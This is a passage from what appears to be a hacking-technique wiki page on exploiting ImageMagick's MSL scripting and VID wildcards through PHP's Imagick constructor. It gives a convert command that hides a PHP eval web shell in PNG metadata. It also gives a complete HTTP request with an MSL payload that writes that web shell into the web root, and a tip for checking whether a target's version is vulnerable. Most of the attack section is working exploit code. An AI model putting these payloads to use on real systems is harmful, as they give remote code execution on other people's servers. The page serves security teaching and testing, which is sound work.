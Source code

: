 The name for these files is generated, like `/tmp/php3r1Y4p`, which _should_ be random so you can't guess its path. The first problem is that with enough attempts this path can still be guessed in a reasonable time. But ImageMagick takes this one step further and allows **wildcards** using VID that enable it to match all files with the known pattern, eliminating the need for guessing. That makes the final path: `vid:msl:/tmp/php*`

One last caveat is the fact that the `<read>` image in the MSL file needs to be in a valid image format that ImageMagick can parse, otherwise, it won't write. This is easily circumvented however by just putting code in the metadata for the file to remain valid:

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ convert xc:red -set 'Copyright' '&#x3C;?php @eval(@$_REQUEST["a"]); ?>' shell.png
</strong>$ cat shell.png
...
IDA�c`�!�3*tEXtCopyright&#x3C;?php @eval(@$_REQUEST["a"]); ?>6�%tEXtdate:create2023-08-11T13:36:21+00:00E�%tEXtdate:modify2023-08-11T13:36:21+00:004��nIEND�B`�
</code></pre>

#### Exploitation

To exploit this behavior in a standard PHP application that throws our input into the `new Imagick(...)` constructor, we need the following things:

1. If you are unsure about the file path, use `vid:` together with `*` wildcards to match the file
2. Prefix the path with `msl:` to let `convert` interpret it as a script
3. For PHP, use `Content-Type: multipart/form-data` and add a file with the malicious content to create a temporary file

Sending this all in one go may look something like this:

<pre class="language-xml" data-title="HTTP"><code class="lang-xml"><strong>GET /convert?path=vid:msl:/tmp/php*
</strong>...
Content-Type: multipart/form-data; boundary=ABC
 
--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain
 
&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;image>
<strong> &#x3C;read filename="caption:&#x26;lt;?php @eval(@$_REQUEST['a']); ?&#x26;gt;" />
</strong> &#x3C;!-- Relative paths such as info:./../../uploads/swarm.php can be used as well -->
<strong> &#x3C;write filename="info:/var/www/html/swarm.php" />
</strong>&#x3C;/image>
--ABC--
</code></pre>

{% hint style="info" %}
Before going directory to exploitation, you can also test if it would be possible to **control** the **start of the path** by providing a common Linux path like:

<pre><code><strong>/usr/share/plymouth/ubuntu-logo.png
</strong></code></pre>

If this accesses the Ubuntu logo, and the ImageMagick version is old enough, the above is very likely to work
{% endhint %}

